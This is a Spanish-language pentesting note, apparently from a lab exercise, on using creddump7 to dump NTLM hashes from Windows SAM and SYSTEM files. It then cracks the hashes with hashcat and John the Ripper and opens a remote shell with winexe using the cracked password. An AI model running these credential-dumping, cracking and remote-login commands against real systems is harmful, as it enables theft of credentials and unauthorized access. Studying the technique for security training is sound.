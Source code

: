 Creddump7 es una herramienta utilizada para extraer credenciales y hashes de contraseñas de sistemas Windows. Se enfoca principalmente en la extracción de información de los archivos de sistema SAM y SYSTEM, que contienen las credenciales almacenadas localmente en un equipo Windows.

```
https://github.com/Tib3rius/creddump7
```

# Instalación
Para instalarlo primero clonamos el repositorio
```
git clone https://github.com/Tib3rius/creddump7
```
![[Pasted image 20240722095232.png]]

Ahora instalaremos la biblioteca de `pycryptodome` para poder ejecutar creddump7
```
pip3 install pycryptodome
```
![[Pasted image 20240722095724.png]]

Ahora ejecutamos el siguiente comando y habremos obtenido los hashes NTLM del sistema
```
python3 creddump7/pwdump.py SYSTEM SAM
```
![[Pasted image 20240722095822.png]]

Ahora copiaremos todas las credenciales en un .txt y las crackearemos con hashcat o john the ripper![[Pasted image 20240722095942.png]]

Y ahora la crackeamos con [[Hashcat]]
```
hashcat -m 1000 --force hash.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240722100225.png]]
![[Pasted image 20240722100258.png]]

Ahora podemos volver a listar la salida de hashcat con el siguiente comando
```
hashcat -m 1000 --show hash.txt
```
![[Pasted image 20240722101519.png]]

Tambien podemos usar [[John The Ripper]]
```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240722101320.png]]

Ahora podriamos acceder por rdp con las credenciales obtenidas
```
winexe -U 'admin%password123' //10.10.169.134 cmd.exe
```
![[Pasted image 20240722101759.png]]